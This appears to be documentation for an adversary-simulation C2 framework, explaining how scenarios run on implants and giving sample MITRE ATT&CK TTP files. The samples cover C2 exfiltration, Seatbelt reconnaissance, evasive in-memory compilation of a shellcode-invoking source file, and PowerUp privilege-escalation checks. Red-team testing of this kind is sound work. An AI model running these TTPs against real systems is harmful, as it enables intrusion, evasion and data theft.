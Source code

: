 # Scenario Management
A scenario can run with a command below, a valid implant ID and a scenario file given. The scenarios are constructed on the service side, and sent to the implant to run. The implant runs the scenario transferred and return the report to the service to be managed with the ```scenarios``` command. It's important that the scenarios also include any files or content in the TTPs, so the scenario content to be transferred may be larger due to the file attachments.
```
scenario IMPLANTID scenariofilepath
```
Scenarios are managed with ```scenarios``` command. It lists the scenarios executed if no scenario ID is given. If the scenario ID is given, it summarises the scenario run, also shows the output or export the report to a file with the following commands.
```
scenarios
scenarios SCENARIOID
scenarios SCENARIOID output
scenarios SCENARIOID export reportfilepath
```

# Sample Scenarios and TTPs
The following sample scenario will include the TTPs given as parameter. They're reference names to the files located under the Scenarios/TTPs folder to include. The Mitre Att&ck ID and descriptions are in the TTP files. 
```
{
    "threat_actor":"Demo Threat Actor!",
    "ttps":[
        "T1087.001",
        "T1087.002",
        "T1059.001",
        "T1127.001-v2",
        "Seatbelt",
        "ShellcodeInvoke"
    ]
}
```
The following is the content of the T1041.json TTP file. The instructions section is an array which may be multiple commands to run at the same time. If there is other implementations, not similar commands, the best is using another TTP file such as T1041-v2.json to avoid confusions. While downloading a file is not confusing; if the Mitre Att&ck ID has various implementations, the versions would be harder to manage.
```
{
    "name": "Data exfiltration through the C2 channel.",
    "mitreid": "T1041",
    "description": "File download for exfiltration demo using the C2 channel",
    "instructions": [
        "download c:\\windows\\system32\\ftp.exe"
    ]
}
```
The following TTP is a sample to run .NET Assemblies such as Seatbelt with parameters. If it's not necessary to wait for the .NET Assembly to finish due to long time operations, it's better to use execthread-sharpassembly. 
```
{
    "name": "Situational awareness using Seatbelt",
    "mitreid": "Seatbelt",
    "description": "Collecting the user and system information using Seatbelt.",
    "instructions": [
        "exec-sharpassembly file Scenarios/Files/Seatbelt.exe BasicOSInfo"
    ]
}
```
This TTP is used to compile a .NET source in memory. As the file is also transferred through the C2 encrypted channel, and the code will be compiled with the COM compiler without a file, it's quite evasive for code execution. 
```
{
    "name": "Compiling .NET Source Code using .NET COM Compiler",
    "mitreid": "T1127.001",
    "description": "Compiling .NET Source Code using .NET COM Compiler for code execution and defence evasion.",
    "instructions": [
        "exec-sharpcode file Scenarios/Files/ShellcodeInvoke.cs demo"
    ]
}
```
This sample is for the PowerShell scripts to run through the .NET System Automation
```
{
    "name": "PowerUp - Invoke Checks (System Management Automation)",
    "mitreid": "T1059.001",
    "description": "Collecting all potential privilege escalation issues using PowerUp.ps1.",
    "instructions": [
        "exec-powershellautomation file Scenarios/Files/PowerUp.ps1 Invoke-AllChecks"
    ]
}
```
While the other commands may need further knowledge, the following easy sample would be used for easy TTP simulations. For example; adding some known Windows/Linux/Mac commands such as make directory, get ip and network configurations, and get process list as instructions for easy TTP gneration. 
```
{
    "name": "Enumerate users and groups",
    "mitreid": "T1087.001",
    "description": "Getting the users and groups via net command.",
    "instructions": [
        "exec cmd /cnet users",
        "exec cmd /cnet groups"
    ]
}
```

